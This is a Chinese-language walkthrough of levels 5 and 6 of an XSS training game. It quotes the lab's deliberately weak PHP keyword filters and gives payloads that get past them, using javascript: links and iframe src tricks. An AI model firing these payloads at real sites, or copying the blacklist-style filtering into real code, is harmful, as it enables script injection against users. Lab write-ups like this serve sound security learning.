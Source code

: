 传入到`<input>`里面的值，被改变了。

	<input name=keyword  value="" o_nmouseover=alert(1) //">


那就使用不是`on`事件和不带有`script`的载荷

`str_replace`不区分大写的问题。`str_ireplace()`区分大小写。

测试替换函数

	<?php
	$id = $_GET['id'];
	$c = str_replace('script','s_cript',$id);
	echo $c;
	echo '<br>';
	$ii = $_GET['ii'];
	$d = str_ireplace('script','s_cript',$ii);
	echo $d;


结果

	http://127.0.0.1:8000/xssgame/strplace.php?id=sCript&ii=sCript
	sCript
	s_cript


第五关虽然没有使用区分大小写的替换函数，但是在取值的时候，直接小写转换了。

	$str = strtolower($_GET["keyword"]);
	$str2=str_replace("<script","<scr_ipt",$str);

使用其他的`payload`，不带有`script`和`on`关键字的。

使用[javascript伪协议](http://zlzxy.com/javascript/1370.html)。

使用`<a>`标签，其中的`"><"`是为了闭合`<input>`

	"><a href="javascript:alert(1)">Clickme</a><" 

点击其中的`Clickme`就可以弹窗了。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-9/33659671.jpg)

	123456"><iframe src=javascript:alert(document.domain)>
	<input name=keyword  value="123456"><iframe src=javascript:alert(document.domain)>">

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-9/34910933.jpg)

**6关**

通过源码，可以看到，过滤了更多，但是没有区分大小写。

	<?php 
	ini_set("display_errors", 0);
	$str = $_GET["keyword"];
	$str2=str_replace("<script","<scr_ipt",$str);
	$str3=str_replace("on","o_n",$str2);
	$str4=str_replace("src","sr_c",$str3);
	$str5=str_replace("data","da_ta",$str4);
	$str6=str_replace("href","hr_ef",$str5);
	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
	<form action=level6.php method=GET>
	<input name=keyword  value="'.$str6.'">
	<input type=submit name=submit value=搜索 />
	</form>
	</center>';
	?>
